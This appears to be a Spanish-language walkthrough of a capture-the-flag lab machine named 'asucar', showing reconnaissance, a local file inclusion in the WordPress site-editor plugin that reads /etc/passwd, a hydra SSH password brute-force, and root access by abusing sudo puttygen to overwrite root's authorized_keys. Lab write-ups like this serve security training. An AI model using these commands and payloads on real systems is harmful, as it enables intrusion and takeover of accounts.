 nmap: 22,80

![image](https://github.com/user-attachments/assets/8504499b-9655-431e-a40f-ea0959b954cf)


---
en la pagina principal podemos ver que es de wordpress:

![image](https://github.com/user-attachments/assets/f9cd8200-a10f-4ea9-97fa-bde2654899cb)

como sabemos que es un wordpress podemos utilizar sus herramientas. hacemos un "wpscan":

    -  wpscan --url http://asucar.dl/ 

nos da una version de "site-editor 1.1"

![image](https://github.com/user-attachments/assets/7e5f859f-eea9-4ac8-9341-3c89158bd8e5)


hacemos un searchsploit site-editor plugin, buscamos con:

      - searchsploit -x php/webapps/44340.txt  
      
nos da:
> site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php

buscamos sobre el exploit: https://www.exploit-db.com/exploits/44340

![image](https://github.com/user-attachments/assets/1fc5f8f5-8ed3-48dc-b28e-762f86653953)


y encontré que si en la barra de búsqueda colocamos: http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![image](https://github.com/user-attachments/assets/d02df419-b597-4b29-8f0d-a1403bd40c07)


y nos dio el contenido de "/etc/passwd" 

vemos que tenemos el usuario "*curiosito*"

hacemos un ataque de fuerza bruta:

         -hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

y nos dio: password1

![image](https://github.com/user-attachments/assets/fb17e9e4-9822-4484-b6e2-52ffe7101fc1)

entramos por el ssh

al hacer "sudo -l" nos aparece "puttygen" que es un comando para generar claves privadas como publicas.

![image](https://github.com/user-attachments/assets/d7798445-a0ae-43dc-ad7c-4c3895b06260)


y encontré que tenemos permisos root generamos una clave primero:

      -  puttygen -t rsa -b 2048 -o rootAccess.ppk

![image](https://github.com/user-attachments/assets/8d29600c-e370-4b56-bef7-bd2708d06e7e)

se puede dejar sin contraseña o con contraseña
lo pasamos una clave publica:
    
      - sudo puttygen rootAccess.ppk -O public-openssh -o /root/.ssh/authorized_keys
    
 ahora una privada:
   
    - puttygen rootAccess.ppk -O private-openssh -o privateRootAccess.ppk

en nuestra terminal colocamos:

      - scp curiosito@172.17.0.2:/home/curiosito/privateRootAccess.ppk . 

para pasarnos la clave privada.
![[privada2.png]]

 ya pasado hacemos un:
        
    - ssh root@172.17.0.2 -i privateRootAccess.ppk 

![[dockerlabs/medio/asucar/root.png]]

colocamos la contraseña que colocamos y somos root! 

